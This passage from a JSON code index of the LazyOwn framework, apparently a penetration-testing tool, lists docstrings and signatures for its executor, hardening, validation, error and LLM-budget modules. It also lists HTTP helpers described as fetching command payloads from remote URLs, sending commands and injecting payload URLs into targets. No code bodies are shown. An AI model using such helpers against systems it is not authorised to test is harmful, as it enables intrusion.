importing\n``f\"{import_name}.{attr}\"`` as a submodule, mirroring the semantics of\n``from {import_name} import {attr}``.\n\nArgs:\n    import_name: The dotted module path to import.\n    attr: The attribute or submodule to retrieve from the imported module.\n    pip_package: Override for the PyPI distribution name. Ignored when\n        ``import_name`` is already declared in the registry.\n    feature: Override for the capability description. Ignored when\n        ``import_name`` is already declared in the registry.\n\nReturns:\n    The requested attribute or submodule when available, otherwise a\n    :class:`_DeferredImport` proxy that raises\n    :class:`MissingDependencyError` on first use.", "kind": "function", "line": 209, "name": "optional_attr", "signature": "def optional_attr(import_name, attr)"}, {"doc": "Result of probing a single Python dependency.\n\nAttributes:\n    spec: The dependency that was probed.\n    available: ``True`` when the dependency imported successfully.\n    detail: Installed version when available, otherwise the import error.", "kind": "class", "line": 253, "name": "DependencyStatus", "signature": "class DependencyStatus"}, {"doc": "Aggregated readiness snapshot of the lazily-imported Python packages.\n\nAttributes:\n    results: Status for every declared optional Python dependency.", "kind": "class", "line": 268, "name": "DependencyReport", "signature": "class DependencyReport"}, {"doc": "Probe a single Python dependency by importing it.\n\nArgs:\n    spec: The dependency to probe.\n\nReturns:\n    A :class:`DependencyStatus` describing availability and version.", "kind": "function", "line": 288, "name": "probe_python_dependency", "signature": "def probe_python_dependency(spec)"}, {"doc": "Probe every declared optional Python dependency.\n\nReturns:\n    A :class:`DependencyReport` aggregating the status of all dependencies\n    in :data:`OPTIONAL_PYTHON_DEPENDENCIES`.", "kind": "function", "line": 312, "name": "collect_dependency_report", "signature": "def collect_dependency_report()"}, {"doc": "Render a :class:`DependencyReport` as an aligned, human-readable block.\n\nArgs:\n    report: The report to render.\n    use_color: When ``True`` wrap status markers in ANSI colour codes.\n\nReturns:\n    A multi-line string suitable for printing to a terminal.", "kind": "function", "line": 323, "name": "format_report", "signature": "def format_report(report)"}, {"doc": "Print the optional-dependency report and return a process exit code.\n\nReturns:\n    ``0`` when every declared dependency is present, ``1`` otherwise. The\n    non-zero code lets shell scripts gate on a clean environment.", "kind": "function", "line": 368, "name": "main", "signature": "def main()"}, {"doc": "Build a remediation-oriented error message.\n\nArgs:\n    import_name: The dotted import path that failed (for example\n        ``Crypto.Cipher``).\n    pip_package: The PyPI distribution that provides ``import_name``.\n    feature: Human-readable description of the capability that needs\n        the dependency.", "kind": "method", "line": 45, "name": "__init__", "signature": "def __init__(self, import_name, pip_package, feature)"}, {"doc": "Store the dependency spec used to build remediation errors.\n\nArgs:\n    spec: Metadata describing the missing dependency.", "kind": "method", "line": 115, "name": "__init__", "signature": "def __init__(self, spec)"}, {"doc": "Raise a :class:`MissingDependencyError` for the proxied dependency.\n\nRaises:\n    MissingDependencyError: Always.", "kind": "method", "line": 123, "name": "_raise", "signature": "def _raise(self)"}, {"doc": "Reject attribute access on a missing dependency.", "kind": "method", "line": 132, "name": "__getattr__", "signature": "def __getattr__(self, _name)"}, {"doc": "Reject calling a missing dependency.", "kind": "method", "line": 136, "name": "__call__", "signature": "def __call__(self)"}, {"doc": "Reject subscription of a missing dependency.", "kind": "method", "line": 140, "name": "__getitem__", "signature": "def __getitem__(self, _key)"}, {"doc": "Reject iteration over a missing dependency.", "kind": "method", "line": 144, "name": "__iter__", "signature": "def __iter__(self)"}, {"doc": "Reject ``len()`` on a missing dependency.", "kind": "method", "line": 148, "name": "__len__", "signature": "def __len__(self)"}, {"doc": "Report the dependency as absent for feature-detection checks.", "kind": "method", "line": 152, "name": "__bool__", "signature": "def __bool__(self)"}, {"doc": "Return the optional Python dependencies that are not installed.", "kind": "method", "line": 278, "name": "missing", "signature": "def missing(self)"}, {"doc": "Return ``True`` when every declared dependency is present.", "kind": "method", "line": 283, "name": "ok", "signature": "def ok(self)"}]}, {"doc": "Actionable error advice with fix command and documentation link.  Every framework error renders four lines: what failed, why it failed, the exact command that fixes it, and the documentation anchor. This replaces bare red messages that forced operators to guess the remedy.", "id": "core/error_advice.py", "kind": "module", "label": "error_advice.py", "language": "py", "sha256": "29a4462bade81829", "symbol_count": 5, "symbols": [{"doc": "Centralized knobs for error advice rendering.", "kind": "class", "line": 16, "name": "ErrorAdviceConfig", "signature": "class ErrorAdviceConfig"}, {"doc": "Structured remedy for one failure mode.", "kind": "class", "line": 27, "name": "ErrorAdvice", "signature": "class ErrorAdvice"}, {"doc": "Return advice for key or None when unknown.\n\nArgs:\n    key: Lookup key such as tool_not_found:nmap.\n\nReturns:\n    Matching ErrorAdvice or None.", "kind": "function", "line": 74, "name": "get_advice", "signature": "def get_advice(key)"}, {"doc": "Render advice as four plain lines with explicit level tags.\n\nArgs:\n    key: Lookup key.\n    config: Rendering configuration.\n\nReturns:\n    Multiline string, empty when the key is unknown.", "kind": "function", "line": 86, "name": "render_advice", "signature": "def render_advice(key, config)"}, {"doc": "Return absolute documentation URL for this advice.", "kind": "method", "line": 35, "name": "docs_url", "signature": "def docs_url(self, config)"}]}, {"doc": "Error taxonomy for the LazyOwn framework.  Provides a hierarchy of exception classes with error codes, enabling structured error reporting and programmatic error handling.", "id": "core/errors.py", "kind": "module", "label": "errors.py", "language": "py", "sha256": "af24b24046cb4beb", "symbol_count": 23, "symbols": [{"doc": "Structured error codes for the LazyOwn framework.", "kind": "class", "line": 10, "name": "ErrorCode", "signature": "class ErrorCode(IntEnum)"}, {"doc": "Base exception for all LazyOwn framework errors.", "kind": "class", "line": 58, "name": "LazyOwnError", "signature": "class LazyOwnError(Exception)"}, {"doc": "Configuration-related errors (missing/invalid payload.json, etc.).", "kind": "class", "line": 78, "name": "ConfigError", "signature": "class ConfigError(LazyOwnError)"}, {"doc": "Target connectivity or access errors.", "kind": "class", "line": 85, "name": "TargetError", "signature": "class TargetError(LazyOwnError)"}, {"doc": "Authentication or authorisation failures.", "kind": "class", "line": 92, "name": "AuthError", "signature": "class AuthError(LazyOwnError)"}, {"doc": "External tool execution errors.", "kind": "class", "line": 99, "name": "ToolError", "signature": "class ToolError(LazyOwnError)"}, {"doc": "Payload generation or deployment errors.", "kind": "class", "line": 106, "name": "PayloadError", "signature": "class PayloadError(LazyOwnError)"}, {"doc": "Database operation errors.", "kind": "class", "line": 113, "name": "DatabaseError", "signature": "class DatabaseError(LazyOwnError)"}, {"doc": "Network-level errors.", "kind": "class", "line": 120, "name": "NetworkError", "signature": "class NetworkError(LazyOwnError)"}, {"doc": "Insufficient-permission errors (wraps OS-level PermissionError).", "kind": "class", "line": 127, "name": "PermissionError", "signature": "class PermissionError(LazyOwnError)"}, {"doc": "Input validation / sanitisation errors.", "kind": "class", "line": 134, "name": "ValidationError", "signature": "class ValidationError(LazyOwnError)"}, {"kind": "method", "line": 61, "name": "__init__", "signature": "def __init__(self, message, error_code)"}, {"doc": "Return a serialisable dict with code, type, and message.", "kind": "method", "line": 66, "name": "to_dict", "signature": "def to_dict(self)"}, {"kind": "method", "line": 74, "name": "__str__", "signature": "def __str__(self)"}, {"kind": "method", "line": 81, "name": "__init__", "signature": "def __init__(self, message, error_code)"}, {"kind": "method", "line": 88, "name": "__init__", "signature": "def __init__(self, message, error_code)"}, {"kind": "method", "line": 95, "name": "__init__", "signature": "def __init__(self, message, error_code)"}, {"kind": "method", "line": 102, "name": "__init__", "signature": "def __init__(self, message, error_code)"}, {"kind": "method", "line": 109, "name": "__init__", "signature": "def __init__(self, message, error_code)"}, {"kind": "method", "line": 116, "name": "__init__", "signature": "def __init__(self, message, error_code)"}, {"kind": "method", "line": 123, "name": "__init__", "signature": "def __init__(self, message, error_code)"}, {"kind": "method", "line": 130, "name": "__init__", "signature": "def __init__(self, message, error_code)"}, {"kind": "method", "line": 137, "name": "__init__", "signature": "def __init__(self, message, error_code)"}]}, {"doc": "Centralised subprocess wrapper for the LazyOwn framework.  Provides safe, logged command execution as a replacement for bare :func:`os.system` and unguarded :func:`subprocess.run` calls.  Contracts --------- 1. :func:`safe_run` executes a command via the system shell, logs the invocation, enforces a timeout, and returns a :class:`subprocess.CompletedProcess`. 2. :func:`run_shell` is a convenience wrapper that returns stdout as a string (or raises on failure). 3. Every command is logged at INFO level with the PID and exit code.  Usage ----- from core.executor import safe_run, run_shell  result = safe_run([\"nmap\", \"-sS\", target], timeout=60) if result.returncode != 0: print(result.stderr)  output = run_shell(\"ls -la /tmp\", timeout=10)  Config keys owned: none.", "id": "core/executor.py", "kind": "module", "label": "executor.py", "language": "py", "sha256": "b1bd1e64f6431c7a", "symbol_count": 6, "symbols": [{"doc": "Validate command input and return argv and loggable string.\n\nArgs:\n    command: A string or list of arguments.\n\nReturns:\n    Tuple of (argv_as_list, command_str_for_logging).\n\nRaises:\n    TypeError: If command is not str or list.\n    ValueError: If command is empty or contains null bytes.", "kind": "function", "line": 41, "name": "_validate_input", "signature": "def _validate_input(command)"}, {"doc": "Clamp and validate timeout seconds.\n\nArgs:\n    timeout: Requested timeout in seconds.\n\nReturns:\n    Validated timeout value.\n\nRaises:\n    ValueError: If timeout is outside valid range.", "kind": "function", "line": 75, "name": "_validate_timeout", "signature": "def _validate_timeout(timeout)"}, {"kind": "function", "line": 96, "name": "safe_run", "signature": "def safe_run(command)"}, {"kind": "function", "line": 98, "name": "safe_run", "signature": "def safe_run(command)"}, {"doc": "Execute a command with logging and timeout.\n\nList input uses ``shell=False``. String input keeps ``shell=True``\nfor legacy pipelines and requires caller sanitisation.\n\nArgs:\n    command: A shell command string or list of argv tokens.\n    timeout: Maximum execution time in seconds (1-3600, default 300).\n\nReturns:\n    A :class:`subprocess.CompletedProcess` with ``stdout`` and\n    ``stderr`` captured as strings.\n\nRaises:\n    TypeError: If *command* is neither ``str`` nor ``list``.\n    ValueError: If *command* is empty, contains null bytes, or timeout\n        is out of range.\n    subprocess.TimeoutExpired: If the command exceeds *timeout*.\n\nSecurity:\n    List form never touches shell. String form intentionally uses\n    shell; callers must sanitise user-controlled input.\n    Null-byte injection is rejected.", "kind": "function", "line": 101, "name": "safe_run", "signature": "def safe_run(command)"}, {"doc": "Execute a shell command and return its stdout.\n\nA convenient wrapper over :func:`safe_run` that raises on non-zero\nexit codes.\n\nArgs:\n    cmd: The shell command string to execute.\n    timeout: Maximum execution time in seconds (1-3600, default 300).\n\nReturns:\n    Captured stdout with leading/trailing whitespace stripped.\n\nRaises:\n    subprocess.CalledProcessError: If the command exits with a\n        non-zero return code.\n    See :func:`safe_run` for other possible exceptions.\n\nSecurity:\n    See :func:`safe_run` security note.", "kind": "function", "line": 149, "name": "run_shell", "signature": "def run_shell(cmd)"}]}, {"doc": "Centralized security hardening utilities for the LazyOwn framework.  Contract: provides safe alternatives to dangerous patterns found across the codebase. Every function is a single-responsibility security control that replaces ad-hoc, vulnerable patterns with a tested, auditable path.  Invariants:  1. ``safe_subprocess_run`` never invokes a shell unless explicitly allowed and audited. 2. ``safe_clipboard_copy`` uses subprocess list-form, never os.system. 3. ``validate_sshpass_env`` sets SSHPASS env var and uses sshpass -e, never sshpass -p. 4. ``escape_html`` sanitizes all user-controlled data before HTML insertion. 5. ``safe_path_join`` prevents path traversal via os.path.realpath prefix check. 6. ``require_encryption_key`` refuses to operate with a static fallback key. 7. ``defused_xml_parse`` wraps defusedxml for safe XML parsing.", "id": "core/hardening.py", "kind": "module", "label": "hardening.py", "language": "py", "sha256": "ad9221a645e579e2", "symbol_count": 16, "symbols": [{"doc": "Reject argument-injection payloads in argv.\n\nArgs:\n    argv: Program and arguments as a sequence.\n    allow_options: When False, reject any argument starting with dash.\n\nRaises:\n    SecurityViolation: If an injection pattern is detected.", "kind": "function", "line": 42, "name": "reject_option_injection", "signature": "def reject_option_injection(argv)"}, {"doc": "Escape a value for embedding in a PowerShell single-quoted string.\n\nArgs:\n    value: Raw value that may contain quotes or metacharacters.\n\nReturns:\n    Value safe to embed between single quotes in PowerShell.", "kind": "function", "line": 61, "name": "escape_powershell_single_quoted", "signature": "def escape_powershell_single_quoted(value)"}, {"doc": "Raised when a security invariant is violated.", "kind": "class", "line": 82, "name": "SecurityViolation", "signature": "class SecurityViolation(PermissionError)"}, {"doc": "Return a child environment that keeps ANSI colors on a pipe.\n\nTools built on termenv or rich (gum, the LazyNmap script) disable color\nwhen their stdout is not a terminal. The framework pipes output so it can\ntee it to a log, so the child would otherwise lose its colors. Forcing\nCLICOLOR_FORCE and FORCE_COLOR restores them. An explicit NO_COLOR wins\nover the forced values.\n\nArgs:\n    base: Base environment. Defaults to ``os.environ``.\nReturns:\n    A new mapping safe to pass as the ``env`` argument of subprocess.", "kind": "function", "line": 86, "name": "terminal_env", "signature": "def terminal_env(base)"}, {"doc": "Execute a command via subprocess without shell interpretation.\n\nArgs:\n    argv: Program and arguments as a sequence. Must not be empty.\n    timeout: Optional wall-clock timeout in seconds.\n    capture_output: Whether to capture stdout and stderr.\n    reason: Free-text justification for audit logging.\n\nReturns:\n    CompletedProcess result.\n\nRaises:\n    SecurityViolation: If argv is empty or contains shell metacharacters.\n    ValueError: If argv is empty.", "kind": "function", "line": 107, "name": "safe_subprocess_run", "signature": "def safe_subprocess_run(argv)"}, {"doc": "Copy content to system clipboard without shell interpretation.\n\nUses subprocess list-form with xclip or xsel. Never uses os.system.\n\nArgs:\n    content: Text to copy to clipboard.\n\nReturns:\n    True if copy succeeded, False otherwise.\n\nRaises:\n    SecurityViolation: If content exceeds MAX_CLIPBOARD_CONTENT_LENGTH.", "kind": "function", "line": 152, "name": "safe_clipboard_copy", "signature": "def safe_clipboard_copy(content)"}, {"doc": "Build an sshpass command using SSHPASS env var (sshpass -e).\n\nNever uses sshpass -p which exposes passwords in process listings.\n\nArgs:\n    password: The SSH password to use.\n    ssh_args: Arguments to pass to ssh/scp after sshpass.\n    max_password_length: Maximum allowed password length.\n\nReturns:\n    List of command arguments suitable for subprocess.run.\n\nRaises:\n    SecurityViolation: If password exceeds max_password_length or\n        contains characters that could break the env var.", "kind": "function", "line": 191, "name": "build_sshpass_command", "signature": "def build_sshpass_command(password, ssh_args)"}, {"doc": "Create an environment dict with SSHPASS set for sshpass -e.\n\nArgs:\n    password: The SSH password.\n\nReturns:\n    Copy of os.environ with SSHPASS set.\n\nRaises:\n    SecurityViolation: If password contains null bytes.", "kind": "function", "line": 220, "name": "set_sshpass_env", "signature": "def set_sshpass_env(password)"}, {"doc": "Escape HTML special characters to prevent XSS.\n\nArgs:\n    value: Raw string that may contain HTML.\n\nReturns:\n    HTML-escaped string safe for insertion into HTML context.", "kind": "function", "line": 239, "name": "escape_html_content", "signature": "def escape_html_content(value)"}, {"doc": "Join base_dir and user_path safely, preventing path traversal.\n\nUses os.path.realpath to resolve symlinks and .. components, then\nverifies the result starts with the allowed base directory.\n\nArgs:\n    base_dir: The allowed root directory.\n    user_path: User-controlled path component.\n\nReturns:\n    Resolved absolute path within base_dir.\n\nRaises:\n    SecurityViolation: If the resolved path escapes base_dir.\n    ValueError: If user_path is empty or contains only separators.", "kind": "function", "line": 251, "name": "safe_path_join", "signature": "def safe_path_join(base_dir, user_path)"}, {"doc": "Validate a network CIDR notation string.\n\nArgs:\n    cidr: Network address in CIDR notation (e.g. \"192.168.1.0/24\").\n\nReturns:\n    True if valid CIDR, False otherwise.", "kind": "function", "line": 277, "name": "validate_network_cidr", "signature": "def validate_network_cidr(cidr)"}, {"doc": "Validate a port specification string.\n\nSupports comma-separated ports and ranges (e.g. \"22,80,443-445\").\n\nArgs:\n    ports: Port specification string.\n\nReturns:\n    True if valid, False otherwise.", "kind": "function", "line": 289, "name": "validate_port_spec", "signature": "def validate_port_spec(ports)"}, {"doc": "Validate a hostname or IP address.\n\nSingle policy shared with the CLI gates: plain IPs, CIDR blocks\nand hostnames pass, shell metacharacters fail. CIDR-only strings\nare additionally accepted by the network pattern below.\n\nArgs:\n    host: Hostname or IP to validate.\n\nReturns:\n    True if valid, False otherwise.", "kind": "function", "line": 305, "name": "validate_host", "signature": "def validate_host(host)"}, {"doc": "Require a proper encryption key; never fall back to a static default.\n\nArgs:\n    env_key: Environment variable name for the secret key.\n    secret_file: Optional path to a file containing the key.\n\nReturns:\n    The encryption key string.\n\nRaises:\n    SecurityViolation: If no key is configured.", "kind": "function", "line": 325, "name": "require_encryption_key", "signature": "def require_encryption_key(env_key, secret_file)"}, {"doc": "Parse XML safely using defusedxml.\n\nArgs:\n    source: File path or string containing XML data.\n\nReturns:\n    Parsed XML ElementTree root element.\n\nRaises:\n    ImportError: If defusedxml is not installed.\n    ValueError: If XML parsing fails.", "kind": "function", "line": 353, "name": "defused_xml_parse", "signature": "def defused_xml_parse(source)"}, {"doc": "Sanitize a filename by removing dangerous characters.\n\nArgs:\n    filename: Raw filename from user input.\n    max_length: Maximum filename length.\n\nReturns:\n    Sanitized filename with only safe characters.", "kind": "function", "line": 375, "name": "sanitize_filename", "signature": "def sanitize_filename(filename, max_length)"}]}, {"doc": "Single source of truth for host and network shape validation.  Both the CLI UX gates (``core.validators.check_*``) and the security predicates (``core.hardening.validate_*``) used to embed their own host-matching logic, which drifted apart. Every predicate here is pure (no I/O, no console output) so presentation and security layers share one fail-closed policy: plain IPs, CIDR blocks and hostnames pass, anything with shell metacharacters fails.", "id": "core/host_policy.py", "kind": "module", "label": "host_policy.py", "language": "py", "sha256": "741f2da671d6569a", "symbol_count": 3, "symbols": [{"doc": "Return True when value contains characters usable for shell injection.\n\nArgs:\n    value: Raw host string to inspect.\n\nReturns:\n    True when any shell metacharacter is present.", "kind": "function", "line": 20, "name": "rejects_shell_meta", "signature": "def rejects_shell_meta(value)"}, {"doc": "Check value is a valid CIDR block.\n\nArgs:\n    value: Candidate CIDR string.\n\nReturns:\n    True when ``ipaddress`` accepts it as a network.", "kind": "function", "line": 32, "name": "is_valid_cidr", "signature": "def is_valid_cidr(value)"}, {"doc": "Check value is a plain IP, CIDR, or hostname without shell metacharacters.\n\nArgs:\n    value: Candidate host value of any type.\n\nReturns:\n    True for IPs, CIDR blocks and hostnames up to 253 chars.", "kind": "function", "line": 48, "name": "is_valid_host", "signature": "def is_valid_host(value)"}]}, {"doc": "HTTP and API utilities for the LazyOwn framework.  Extracted from ``utils.py`` — HTTP request builders, exploit/PoC scrapers, news feeds, and web interaction helpers.", "id": "core/http.py", "kind": "module", "label": "http.py", "language": "py", "sha256": "b5cedad4dc03c584", "symbol_count": 10, "symbols": [{"doc": "Build and send an HTTP GET request.\n\nArgs:\n    host: Target hostname or IP.\n    port: Target port.\n    uri: URI path.\n    custom_header: Optional extra headers.\n    cmd: Optional command to embed in the request.\n\nReturns:\n    Response text or empty string.", "kind": "function", "line": 18, "name": "generate_http_req", "signature": "def generate_http_req(host, port, uri, custom_header, cmd)"}, {"doc": "Fetch a banner by connecting via HTTP to the given host and port.\n\nArgs:\n    host: Target host.\n    port: Target port.\n\nReturns:\n    Response text or empty string.", "kind": "function", "line": 50, "name": "get_banner", "signature": "def get_banner(host, port)"}, {"doc": "Fetch a command payload from a remote URL.\n\nArgs:\n    url: Full URL to fetch.\n    lhost: Local host address (unused, kept for signature compat).\n\nReturns:\n    Response text or None on failure.", "kind": "function", "line": 69, "name": "get_command", "signature": "def get_command(url, lhost)"}, {"doc": "Send a command via HTTP POST.\n\nArgs:\n    cmd: Command string.\n    url: Target URL.\n    lhost: Local host.\n\nReturns:\n    Response text or None.", "kind": "function", "line": 87, "name": "send_command", "signature": "def send_command(cmd, url, lhost)"}, {"doc": "Parse ExploitAlert search results HTML.\n\nArgs:\n    content: Raw HTML from ExploitAlert.\n\nReturns:\n    List of ``{\"title\": …, \"link\": …}`` dicts.", "kind": "function", "line": 106, "name": "exploitalert", "signature": "def exploitalert(content)"}, {"doc": "Parse Packet Storm Security search results HTML.\n\nArgs:\n    content: Raw HTML from packetstormsecurity.com.\n\nReturns:\n    List of ``{\"title\": …, \"link\": …}`` dicts.", "kind": "function", "line": 125, "name": "packetstormsecurity", "signature": "def packetstormsecurity(content)"}, {"doc": "Parse NVD JSON vulnerability feed.\n\nArgs:\n    content: Raw JSON string from the NVD API.\n\nReturns:\n    List of CVE dicts.", "kind": "function", "line": 143, "name": "nvddb", "signature": "def nvddb(content)"}, {"doc": "Scrape Hacker News top stories.\n\nReturns:\n    ``(titles, links, scores)`` tuple.", "kind": "function", "line": 174, "name": "scrape_news", "signature": "def scrape_news()"}, {"doc": "Display scraped news in the console.\n\nArgs:\n    titles: News titles.\n    links: News URLs.\n    scores: News scores.", "kind": "function", "line": 198, "name": "display_news", "signature": "def display_news(titles, links, scores)"}, {"doc": "Attempt to inject a payload URL into a list of target URLs.\n\nArgs:\n    urls: List of target URLs.\n    payload_url: URL to inject.\n    request_timeout: Timeout per request in seconds.", "kind": "function", "line": 211, "name": "inject_payloads", "signature": "def inject_payloads(urls, payload_url, request_timeout)"}]}, {"doc": "LLM budget cap and per call token counter.  The framework exposes several LLM backed entry points. The framework never enforced a daily cost cap. The module below is the single source of truth for the LLM budget contract. The module is imported by :mod:`modules.llm_factory` so every backend the factory returns is wrapped with the guard.  The contract is the wrapper refuses the call when the daily budget is exhausted or the per call token cap is exceeded. The contract never raises a non budget related exception. The contract persists the ledger to ``sessions/llm_budget.json`` so a process restart does not reset the counter inside the same calendar day.  Pricing follows the OpenAI style model where the operator declares a price per million input tokens and a price per million output tokens. The default price table covers Groq and Ollama. The Ollama prices are zero because the operator runs the model on the local host. The operator may override every price through ``payload.json``.  The module imports nothing from the LazyOwn project beyond :mod:`core.config` and :mod:`core.dependencies` so a fresh checkout can use the module without activating the framework.", "id": "core/llm_budget.py", "kind": "module", "label": "llm_budget.py", "language": "py", "sha256": "3d7b38b1af59d023", "symbol_count": 45, "symbols": [{"doc": "Raised when a call would breach the daily budget or the token cap.", "kind": "class", "line": 54, "name": "BudgetExceeded", "signature": "class BudgetExceeded(RuntimeError)"}, {"doc": "Structural type the wrapper requires from the wrapped backend.", "kind": "class", "line": 58, "name": "LLMBackendLike", "signature": "class LLMBackendLike(Protocol)"}, {"doc": "Price for a single model expressed in United States dollars per million tokens.\n\nAttributes:\n    input: Cost per million input tokens.\n    output: Cost per million output tokens.", "kind": "class", "line": 69, "name": "ModelPrice", "signature": "class ModelPrice"}, {"doc": "Runtime configuration for the LLM budget guard.\n\nAttributes:\n    daily_budget_usd: Maximum amount the operator allows the\n        framework to spend on a single calendar day.\n    per_call_token_cap: Maximum number of input tokens a single\n        call may consume. The cap is a safety net that prevents a\n        runaway prompt from consuming the whole budget in one shot.\n    reset_at_utc: Time of day, in HH:MM format and UTC, when the\n        ledger rolls over and the day counter restarts.\n    model_prices: Per model price table. The keys are model\n        identifiers. The values are :class:`ModelPrice` instances\n        expressed in United States dollars per million tokens.\n    enabled: When False the guard passes the call through without\n        recording a charge. The default is True so the operator\n        who configures a budget is protected by default.\n    ledger_path: Absolute path of the JSON file the ledger writes.", "kind": "class", "line": 103, "name": "BudgetConfig", "signature": "class BudgetConfig"}, {"doc": "Single charge the ledger records.\n\nAttributes:\n    model: Model identifier the wrapper recorded.\n    input_tokens: Number of input tokens the wrapper counted.\n    output_tokens: Number of output tokens the wrapper recorded.\n    cost_usd: Dollar cost the wrapper charged for the call.\n    timestamp: ISO 8601 timestamp the wrapper wrote the entry.", "kind": "class", "line": 132, "name": "LedgerEntry", "signature": "class LedgerEntry"}, {"doc": "Return the current calendar day in UTC as an ISO date.\n\nArgs:\n    now: Optional override for the current time. Tests pass an\n        explicit value to drive the roll over logic.\nReturns:\n    The calendar day as a YYYY-MM-DD string.", "kind": "function", "line": 150, "name": "_today_utc", "signature": "def _today_utc(now)"}, {"doc": "Return the current time as an ISO 8601 UTC string.\n\nArgs:\n    now: Optional override for the current time.\nReturns:\n    The timestamp in ISO 8601 format with explicit UTC offset.", "kind": "function", "line": 163, "name": "_now_iso", "signature": "def _now_iso(now)"}, {"doc": "In memory ledger that persists the daily spend to disk.\n\nAttributes:\n    path: Absolute path of the JSON file the ledger reads on\n        construction and writes after every charge.\n    today: Calendar day the ledger considers the current day.\n        Tests override the value to drive the day roll over.", "kind": "class", "line": 176, "name": "BudgetLedger", "signature": "class BudgetLedger"}, {"doc": "Token counter the guard consumes.\n\nThe estimator wraps ``tiktoken`` when the dependency is available.\nWhen ``tiktoken`` is missing the estimator falls back to a\nwhitespace tokeniser that still produces a deterministic count.\nThe fallback exists so the guard never crashes the operator who\nruns the framework on a host without ``tiktoken`` installed.", "kind": "class", "line": 268, "name": "TokenEstimator", "signature": "class TokenEstimator"}, {"doc": "Proxy that enforces the budget around a wrapped backend.\n\nAttributes:\n    config: Active runtime configuration.\n    estimator: Token estimator the guard uses.\n    ledger: Persistent ledger the guard updates.", "kind": "class", "line": 310, "name": "BudgetGuard", "signature": "class BudgetGuard"}, {"doc": "Transparent proxy the factory returns in place of the raw backend.\n\nAttributes:\n    inner: Concrete backend the proxy delegates to.\n    guard: Guard that enforces the budget.\n    model: Model identifier the proxy records on every call.", "kind": "class", "line": 408, "name": "BudgetedBackend", "signature": "class BudgetedBackend"}, {"doc": "Return the default price table the guard ships with.\n\nReturns:\n    A dictionary keyed by model identifier. The values are\n    :class:`ModelPrice` instances.", "kind": "function", "line": 442, "name": "default_model_prices", "signature": "def default_model_prices()"}, {"doc": "Return the directory the ledger writes to by default.\n\nReturns:\n    Absolute path. The directory is the LazyOwn ``sessions``\n    directory under the current working directory. The operator\n    may override the value through the ``LAZYOWN_SESSIONS_DIR``\n    environment variable.", "kind": "function", "line": 461, "name": "default_sessions_dir", "signature": "def default_sessions_dir()"}, {"doc": "Coerce a payload value into a boolean.\n\nArgs:\n    value: Raw value from the payload mapping.\n    default: Value to return when the raw value is not a boolean.\nReturns:\n    The coerced boolean.", "kind": "function", "line": 476, "name": "_coerce_bool", "signature": "def _coerce_bool(value, default)"}, {"doc": "Coerce a payload value into the price table.\n\nArgs:\n    value: Raw value from the payload mapping. The value is a\n        dictionary keyed by model identifier whose values are\n        mappings with ``input`` and ``output`` keys.\nReturns:\n    The price table the guard consumes. Empty when the payload\n    omits the key.", "kind": "function", "line": 496, "name": "_coerce_price_table", "signature": "def _coerce_price_table(value)"}, {"doc": "Coerce a payload value into a non negative float.\n\nArgs:\n    value: Raw value from the payload mapping.\n    default: Value to return when the raw value is not a number.\nReturns:\n    The coerced float. Negative values are clamped to zero.", "kind": "function", "line": 520, "name": "_coerce_positive_float", "signature": "def _coerce_positive_float(value, default)"}, {"doc": "Coerce a payload value into a non negative integer.\n\nArgs:\n    value: Raw value from the payload mapping.\n    default: Value to return when the raw value is not an integer.\nReturns:\n    The coerced integer. Negative values are clamped to zero.", "kind": "function", "line": 536, "name": "_coerce_positive_int", "signature": "def _coerce_positive_int(value, default)"}, {"doc": "Build a BudgetConfig from a payload mapping.\n\nArgs:\n    payload: Mapping derived from ``payload.json``.\n    sessions_dir: Directory the ledger writes to. Defaults to the\n        LazyOwn ``sessions`` directory.\nReturns:\n    The BudgetConfig the guard consumes.", "kind": "function", "line": 552, "name": "load_budget_config", "signature": "def load_budget_config(payload, sessions_dir)"}, {"doc": "Return a structured snapshot of the current budget.\n\nArgs:\n    payload: Mapping derived from ``payload.json``.\n    sessions_dir: Directory the ledger writes to.\nReturns:\n    Dictionary the CLI command and the MCP tool surface to the\n    operator. Keys are stable across releases.", "kind": "function", "line": 585, "name": "read_budget_status", "signature": "def read_budget_status(payload, sessions_dir)"}, {"doc": "Render the budget status as a human readable block.\n\nArgs:\n    config: Active runtime configuration.\n    ledger: Ledger the operator wants to inspect.\nReturns:\n    Multi line text the CLI command prints. The block is plain\n    text so the operator can pipe it to ``grep`` or ``awk``.", "kind": "function", "line": 616, "name": "format_budget_status", "signature": "def format_budget_status(config, ledger)"}, {"doc": "Return True when the backend exposes the three call surface methods.\n\nArgs:\n    backend: Object the factory returns.\nReturns:\n    True when the object exposes ``generate``, ``stream_generate``,\n    and ``complete``. False otherwise.", "kind": "function", "line": 642, "name": "_has_required_methods", "signature": "def _has_required_methods(backend)"}, {"doc": "Wrap a concrete backend with a budgeted proxy.\n\nArgs:\n    backend: Concrete backend the factory returns.\n    config: Active runtime configuration.\n    estimator: Token estimator the proxy uses.\n    model: Model identifier the proxy records on every call.\n    ledger: Optional ledger. The factory passes ``None`` and lets\n        the guard build the default ledger.\nReturns:\n    The proxy the caller forwards every request through.\nRaises:\n    TypeError: when the backend does not expose the three call\n        surface methods the proxy delegates to.", "kind": "function", "line": 657, "name": "wrap_backend_with_budget", "signature": "def wrap_backend_with_budget(backend, config, estimator, model, ledger)"}, {"kind": "method", "line": 61, "name": "generate", "signature": "def generate(self, prompt)"}, {"kind": "method", "line": 63, "name": "stream_generate", "signature": "def stream_generate(self, prompt)"}, {"kind": "method", "line": 65, "name": "complete", "signature": "def complete(self, system, user, max_tokens, temperature)"}, {"doc": "Build a ModelPrice from a JSON friendly mapping.\n\nArgs:\n    data: Mapping that carries the ``input`` and ``output`` keys.\nReturns:\n    The ModelPrice the guard consumes.\nRaises:\n    ValueError: when the mapping is missing the required keys.", "kind": "method", "line": 81, "name": "from_mapping", "signature": "def from_mapping(cls, data)"}, {"doc": "Return the empty state the ledger starts from when no file exists.", "kind": "method", "line": 189, "name": "_empty_state", "signature": "def _empty_state(self)"}, {"doc": "Load the ledger state from disk.\n\nReturns:\n    The parsed state dictionary. Empty state when the file\n    does not exist or is malformed.", "kind": "method", "line": 193, "name": "_load", "signature": "def _load(self)"}, {"doc": "Persist the ledger state to disk atomically.\n\nArgs:\n    state: State dictionary the ledger serialises to JSON.", "kind": "method", "line": 215, "name": "_save", "signature": "def _save(self, state)"}, {"doc": "Return the in memory state, reloading from disk when empty.", "kind": "method", "line": 226, "name": "_state", "signature": "def _state(self)"}, {"doc": "Append a charge to the ledger and persist the new state.\n\nArgs:\n    entry: Charge the guard computed.", "kind": "method", "line": 232, "name": "record", "signature": "def record(self, entry)"}, {"doc": "Return the dollar amount the ledger charged for the current day.", "kind": "method", "line": 251, "name": 